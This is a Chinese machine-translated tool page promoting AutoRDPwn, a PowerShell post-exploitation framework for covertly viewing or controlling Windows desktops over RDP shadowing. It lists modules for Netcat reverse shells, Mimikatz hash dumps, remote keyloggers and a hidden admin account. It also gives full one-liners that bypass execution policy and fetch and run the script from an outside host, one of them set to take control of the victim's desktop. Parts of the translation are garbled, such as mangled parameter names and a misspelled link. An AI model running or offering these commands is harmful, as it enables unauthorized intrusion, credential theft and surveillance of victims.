


# AutoRDPwn:影子攻击框架

> [https://kallinuxxtauthorities . com/autodpwn-2/](https://kalilinuxtutorials.com/autordpwn-2/)

**AutoRDPwn** 是在 Powershell 中创建的一个后利用框架，主要设计用于自动化对微软 Windows 计算机的影子攻击。

该漏洞(被微软归类为一项功能)允许远程攻击者在未经受害者同意的情况下查看其桌面，甚至使用操作系统本身的工具按需控制它。

由于有了额外的模块，可以通过 Netcat 获得远程 shell，用 Mimikatz 转储系统散列，加载远程键盘记录器等等。所有这一切，通过七种不同语言的完全直观的菜单。

此外，通过使用一节中描述的一系列参数，可以在反向 shell 中使用它。

**要求**

Powershell 4.0 o 高级版

**变化**

*   **版本 5.1**
    *   修复了许多错误
    *   美观的改进和等待时间的缩短
    *   通过系统设置的代理感知连接
    *   现在可以通过下载。压缩文件
    *   通过按回车键进行语言自动检测
    *   Invoke-DCOM 已被 SharpRDP 取代
    *   通电已被 Invoke-PrivescCheck 取代
    *   在受害者中创建自动清洗子程序
    *   新模块可用:用 AES 加密的 SMB Shell
    *   新模块可用:用运行方式更改用户
    *   其余的更改可以在 CHANGELOG 文件中查阅

**使用**

这个应用程序可以用于本地，远程或团队之间的枢纽。
在反向外壳中远程使用时，有必要使用以下参数:

| 参数 | 描述 |
| --- | --- |
| **-admin / -noadmin** | 根据我们拥有的权限，我们将使用其中的一个 |
| **-诺贵** | 这将避免加载菜单和一些颜色，保证其功能 |
| **——郎** | 我们将选择我们的语言(英语、西班牙语、法语、德语、意大利语、俄语或葡萄牙语) |
| **-选项** | 和菜单一样，我们可以选择如何发动攻击 |
| **-影子** | 我们将决定是否要查看或控制远程设备 |
| **-createuser** | 该参数是可选的，用户 AutoRDPwn:AutoRDPwn 将在受害机器上创建 |
| **-无清洗** | 禁用在受害计算机上撤消所有更改的过程 |

**一行本地执行:**

**powershell-EP bypass " CD $ env:temp；iwr https://darkbyte.net/autordpwn.php-outfile autordpwn . PS1；。\AutoRDPwn.ps1"**

**线上远程执行示例:**

**powershell-EP bypass " CD $ env:temp；iwr https://darkbyte.net/autordpwn.php-outfile autordpwn . PS1；。\ autordpwn . PS1-admin-nogui-lang English-option 4-shadow control-create user "**

详细的使用指南可以在以下链接中找到:
[https://darkbyte.net/autordpwn-la-guia-definitiva](https://darkbyte.net/autordpwn-la-guia-definitiva)

**也可阅读-[urlbrut:破解网站子域名的工具&Dirs](https://kalilinuxtutorials.com/urlbrute/)**

**截图**

**执照**

这个项目是在 GNU 3.0 许可下授权的——更多细节请看许可文件。

**学分和致谢**

这个框架使用了以下脚本和工具:
查奇-枚举器由**路易斯·瓦卡斯**->[https://github.com/Hackplayers/PsCabesha-tools](https://github.com/Hackplayers/PsCabesha-tools)
Invoke-Phant0m 由**哈利勒·达拉巴斯马兹**->[https://github.com/hlldz/Invoke-Phant0m](https://github.com/hlldz/Invoke-Phant0m)
Invoke-PowerShellTcp 由**尼克希尔“萨姆拉塔肖克”米塔尔**->[https://github.com/samratashok/nishang](https://github.com/samratashok/nishang)
Invoke-the hash 由->[https://docs . Microsoft . com/en-us/sys internals/downloads/psexec](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec)
Stas ' m corp .->[https://github.com/stascorp/rdpwrap](https://github.com/stascorp/rdpwrap)
sharp RDP by**Steven F**->[https://github.com/0xthirteen/SharpRDP](https://github.com/0xthirteen/SharpRDP)
等等，不适合在此赘述 ..感谢他们所有人和他们出色的工作。

[**Download**](https://github.com/JoelGMSec/AutoRDPwn)